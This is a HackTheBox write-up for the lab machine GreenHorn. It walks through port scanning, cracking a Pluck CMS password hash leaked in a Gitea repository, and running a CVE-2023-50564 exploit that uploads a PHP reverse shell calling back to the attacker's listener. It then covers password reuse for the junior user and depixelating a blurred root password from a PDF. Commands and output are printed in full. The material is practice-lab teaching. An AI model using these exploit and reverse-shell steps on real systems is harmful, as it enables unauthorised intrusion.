






# GreenHorn - HackTheBox - Writeup
Linux, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, `80`, and `3000`.

***User***: Discovered `pluck` on port `80` and `gitea` on port `3000`. Retrieved `pluck` credentials from the `gitea` repository. Exploited `CVE-2023-50564` to achieve RCE as `www-data`, then reused the `pluck` password to escalate to the `junior` user.

***Root***: Found a PDF containing a pixelated password. Used the `depix` tool to recover the password.




## GreenHorn Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/GreenHorn]
└──╼ $ nmap -sV -sC -oA nmap/GreenHorn 10.10.11.25
tarting Nmap 7.93 ( https://nmap.org ) at 2024-10-25 00:24 IDT
Nmap scan report for 10.10.11.25
Host is up (0.077s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57d6928a7244841729eb5cc9636afefd (ECDSA)
|_  256 40ea17b1b6c53f4256674a3cee75232f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  ppp?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `80`, we see that the following web page is hosted:



By inspecting port `3000`, we can observe that the following web page is hosted:



Port `3000` is running [Gitea](https://about.gitea.com/) version 1.21.11.

Clicking on the [admin](http://greenhorn.htb/login.php) button on port `80` reveals the following web page:


We can see that it is `Pluck CMS` version `4.7.18`.

After registering on `Gitea` via port `3000` and logging in, the `pluck` repository becomes visible at http://greenhorn.htb:3000/GreenAdmin/GreenHorn.:



At http://greenhorn.htb:3000/GreenAdmin/GreenHorn/src/branch/main/data/settings/pass.php, we can see the following content:
```php
<?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>
```

This file verifies the credentials for `pluck`. Let's crack the hash using `john`:
```console
┌─[evyatar9@parrot]─[/hackthebox/GreenHorn]
└──╼ $ john --wordlist=~/Desktop/rockyou.txt -format=Raw-SHA512 hash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA512 [SHA512 128/128 SSE2 2x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyou1        (?)
1g 0:00:00:00 DONE (2024-10-25 01:12) 9.090g/s 18618p/s 18618c/s 18618C/s 123456..lovers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And we obtain the password `iloveyou1`.

We can exploit `CVE-2023-50564` using the [Proof of Concept](https://github.com/b0ySie7e/Pluck_Cms_4.7.18_RCE_Exploit) to achieve RCE as follows:
```console
┌─[evyatar9@parrot]─[/hackthebox/GreenHorn/Pluck_Cms_4.7.18_RCE_Exploit]
└──╼ $ python3 exploit_pluckv4.7.18_RCE.py --password iloveyou1 --filename shell.php --ip 10.10.14.15 --port 4444 --host http://greenhorn.htb
[+] Creating payload
[+] Overwriting .php file
[+] Creating ZIP file
Login successful
[+] ZIP file uploaded successfully

```

Where `shell.php` is sourced from [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Executing it gives us a reverse shell:
```console
┌─[evyatar9@parrot]─[/hackthebox/GreenHorn/Pluck_Cms_4.7.18_RCE_Exploit]
└──╼ $ c -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.15] from greenhorn.htb [10.10.11.25] 52052
bash: cannot set terminal process group (1098): Inappropriate ioctl for device
bash: no job control in this shell
$ whoami
www-data
$ ls -ltra /home
ls -ltra /home
total 16
drwxr-xr-x  3 junior junior 4096 Jun 20 06:36 junior
drwxr-xr-x  4 root   root   4096 Jun 20 06:36 .
drwxr-x---  2 git    git    4096 Jun 20 06:36 git
drwxr-xr-x 20 root   root   4096 Jun 20 07:06 ..

```

We can reuse the password `iloveyou1` for the user `junior`:
```console
$ su junior
su junior
Password: iloveyou1
cat /home/junior/user.txt
04031b90eb4f9b3ba3a51d512867423f
```

And we get the user flag `04031b90eb4f9b3ba3a51d512867423f`.

### Root

In the `junior` home directory, we can see the following files:
```console
junior@greenhorn:~$ ls -ltra
ls -ltra
total 136
lrwxrwxrwx 1 junior junior     9 Jun 11 14:38  .bash_history -> /dev/null
-rw-r----- 1 root   junior 61367 Jun 11 14:39 'Using OpenVAS.pdf'
drwx------ 2 junior junior  4096 Jun 20 06:36  .cache
drwxr-xr-x 4 root   root    4096 Jun 20 06:36  ..
-rw-r----- 1 root   junior    33 Oct 24 21:22  user.txt
drwxr-xr-x 3 junior junior  4096 Oct 24 22:35  .

```

By downloading the file `Using OpenVAS.pdf`, we can see the following content:


We can see the password is hidden:


We can use [Depix](https://github.com/spipm/Depix.git) to retrieve the password:
```console
┌─[evyatar9@parrot]─[/hackthebox/GreenHorn/]
└──╼ $ python3 depix.py -p password.JPG -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o out.png
2024-10-25 01:56:12,496 - Loading pixelated image from password.JPG
2024-10-25 01:56:12,507 - Loading search image from images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
2024-10-25 01:56:13,313 - Finding color rectangles from pixelated space
2024-10-25 01:56:13,383 - Found 4166 same color rectangles
2024-10-25 01:56:13,384 - 3566 rectangles left after moot filter
2024-10-25 01:56:13,385 - Found 38 different rectangle sizes
2024-10-25 01:56:13,385 - Finding matches in search image
2024-10-25 01:56:13,386 - Scanning 2698 blocks with size (1, 1)
2024-10-25 01:56:13,926 - Scanning in searchImage: 0/1678
...

```

After a few minutes, we receive the following output:



The password is `sidefromsidetheothersidesidefromsidetheotherside`.

We can use this password for the `root` login:
```console
junior@greenhorn:~$ su
su
Password: sidefromsidetheothersidesidefromsidetheotherside

root@greenhorn:/home/junior# cat /root/root.txt
cat /root/root.txt
cf90613699d94a5902681294e834f388
```

And we get the root flag `cf90613699d94a5902681294e834f388`.